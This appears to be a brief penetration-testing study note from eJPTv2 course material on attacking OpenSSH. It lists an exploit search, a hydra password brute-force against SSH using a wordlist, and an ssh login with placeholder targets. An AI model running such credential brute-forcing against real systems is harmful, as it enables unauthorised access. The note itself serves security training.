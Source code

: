 ```yaml
---
up: "[[4. ARCHIVES/eJPTv2/Host & Network Penetration Testing/Exploitation/Windows Exploitation/Windows Exploitation]]"
---
```


# Targeting OpenSSH

## Demonstration

```bash
$ searchsploit OpenSSH
$ hydra -l vagrant -P unix_users.txt <ip> ssh
$ ssh <user>@<ip>
```
